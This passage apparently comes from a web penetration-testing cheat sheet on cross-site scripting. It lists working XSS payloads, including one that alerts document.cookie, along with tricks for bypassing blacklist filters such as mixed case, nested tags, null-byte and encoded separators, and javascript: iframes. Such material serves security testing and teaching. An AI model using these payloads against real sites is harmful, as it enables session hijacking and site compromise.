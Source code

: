 ```
/?search=<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x
```

##### Blacklist Bypasses

If some kind of blacklist is being used you could try to bypass it with some silly tricks:

```
//Random capitalization
<script> --> <ScrIpT>
<img --> <ImG

//Double tag, in case just the first match is removed
<script><script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

//You can substitude the space to separate attributes for:
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09

//Unexpected parent tags
<svg><x><script>alert('1'&#41</x>

//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//Extra open
<<script>alert("XSS");//<</script>

//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">

//Using `` instead of parenthesis
onerror=alert`1`

//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```
